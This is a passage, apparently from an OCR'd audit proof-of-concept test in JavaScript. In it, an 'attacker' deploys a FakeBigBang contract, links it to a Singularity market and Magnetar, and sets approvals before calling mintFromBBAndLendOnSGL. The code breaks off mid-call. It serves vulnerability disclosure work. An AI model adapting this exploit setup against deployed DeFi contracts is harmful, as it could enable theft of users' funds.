 ```
        const usdoStratregy = await bar.emptyStrategies(usd0.address);
        const usdoAssetId = await yieldBox.ids(
            1,
            usd0.address,
            usdoStratregy,
            0,
        );
        const { stableToUsdoBidder } = await deployCurveStableToUsdoBidder(
            deployer,
            bar,
            usdc,
            usd0,
            false,
        );
        const { wethUsdoSingularity } = await createWethUsd0Singularity(
            deployer,
            usd0,
            weth,
            bar,
            usdoAssetId,
            wethAssetId,
            mediumRiskMC,
            yieldBox,
            stableToUsdoBidder,
            ethers.utils.parseEther('1'),
            false,
        );

        //@audit => Attacker deploys the FakeBigBang contract!
        const fakeBigBang = await ethers.deployContract("FakeBigBang");

        await fakeBigBang.setMarket(wethUsdoSingularity.address);  
        await fakeBigBang.setMagnetar(magnetar.address);

        const borrowAmount = ethers.BigNumber.from((1e18).toString()).mul(
            100,
        );
        const wethMintVal = ethers.BigNumber.from((1e18).toString()).mul(
            10,
        );

        await usd0.mint(deployer.address, borrowAmount.mul(2));
        // We get asset
        await weth.freeMint(wethMintVal);

        // Approve tokens
        // await approveTokensAndSetBarApproval();
        await yieldBox.setApprovalForAll(wethUsdoSingularity.address, true);
        await wethBigBangMarket.updateOperator(magnetar.address, true);
        await weth.approve(magnetar.address, wethMintVal);
        await wethUsdoSingularity.approve(
            magnetar.address,
            ethers.constants.MaxUint256,
        );
        await wethBigBangMarket.approveBorrow(
            magnetar.address,
            ethers.constants.MaxUint256,
        );

        await magnetar.mintFromBBAndLendOnSGL(
            deployer.address,
            borrowAmount,
            {
```